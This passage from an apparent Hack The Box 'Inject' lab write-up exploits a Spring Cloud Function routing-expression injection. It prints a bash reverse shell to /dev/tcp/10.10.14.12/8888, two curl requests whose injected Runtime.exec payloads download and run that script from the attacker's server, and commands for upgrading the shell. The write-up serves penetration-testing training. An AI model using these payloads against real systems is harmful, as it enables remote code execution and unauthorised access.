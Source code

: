 ![Untitled](../../../assets/2023-07-10-hack-the-box-inject/Untitled11.png)

I craft a bash reverse shell and save it to a file called `exec_me.sh` that I expose via a `python3 -m http.server` webserver.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.12/8888 0>&1
```

And the following command downloads this file to the remote machine.

```bash
curl -i -s -k -X 'POST' \
	-H 'Host: 10.10.11.204:8080' \
	-H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl http://10.10.14.12:8000/exec_me.sh -o /tmp/exec_me.sh")' \
	--data-binary 'exec_me' 'http://10.10.11.204:8080/functionRouter'
```

To receive the reverse shell from the remote host I start a `netcat` listener on port 8888 (same port as in the bash reverse shell script) on my local machine. To then trigger the exploit:

```bash
curl -i -s -k -X 'POST' \
	-H 'Host: 10.10.11.204:8080' \
	-H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/exec_me.sh")' \
	--data-binary 'exec_me' 'http://10.10.11.204:8080/functionRouter'
```

## Becoming phil

After sending the request I receive a reverse shell as the frank user on my `netcat` listener. I then proceed to upgrade my shell by executing `python3 -c "import pty; pty.spawn('/bin/bash')` . Then I press `CTRL+Z` to temporarily jump out of the reverse shell and execute `stty raw -echo; fg` which brings me back into my reverse shell. Now I can change the term variable with `export TERM=xterm` and be sure I wont jump out of my reverse shell unexpectedly.
